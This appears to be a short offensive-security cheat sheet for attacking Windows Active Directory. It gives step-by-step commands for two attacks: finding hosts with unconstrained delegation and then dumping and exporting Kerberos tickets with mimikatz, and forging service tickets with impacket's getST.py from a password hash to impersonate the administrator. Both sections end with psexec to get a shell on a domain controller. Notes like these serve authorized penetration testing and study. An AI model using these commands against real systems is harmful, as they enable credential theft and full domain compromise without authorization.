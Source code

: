 &nbsp;
<span style="font-size: 25px; color:white"><b>Unconstrained Delegation</b></span>

Can Lead to complete domain compromise if you have a privileged user!
Basically a forwardable TGT in use.

Enumerate unconstrained delegations with:
```
Get-DomainComputer -Unconstrained
```
Look for blocks with <span style="color:red">useraccountcontrol: TRUSTED_FOR_DELEGATION</span> and <span style="color:red">name: <computername></span>.
Find the IPAddress of the computer with unconstrained delegation:
```powershell
nslookup <computername>
```

At this point, use mimikatz like so:
```
privilege::debug
sekurlsa::tickets
```
Check for TGT for other users. If you find any, save those with <span style="color:red">sekurlsa::tickets /export</span>.
You can use that TGT to log as that user with 
```
PsExec.exe \\cdc01 cmd
```
Run <span style="color:red">whoami</span> to see if it worked.
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>getST.py</b></span>
Get Silver Ticket from a service of which you have name and password/hash
```shell
getST.py -dc-ip <domain_ip> -spn WWW/<domain_controller_hostname> -hashes :<hash> -impersonate administrator <domain>/<service_name>
```

it will dump a .ccache file.

If it does not work and gives you <span style="color:red">Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)</span>, sync the time of your machine with the domain using NTP: 
```shell
ntpdate <IP_of_DC>
```

After that, run:
```shell
export KRB5CCNAME=<name_of_ccache_file>
```

```shell
psexec.py -k -no-pass <DC_hostname>
```
&nbsp;

---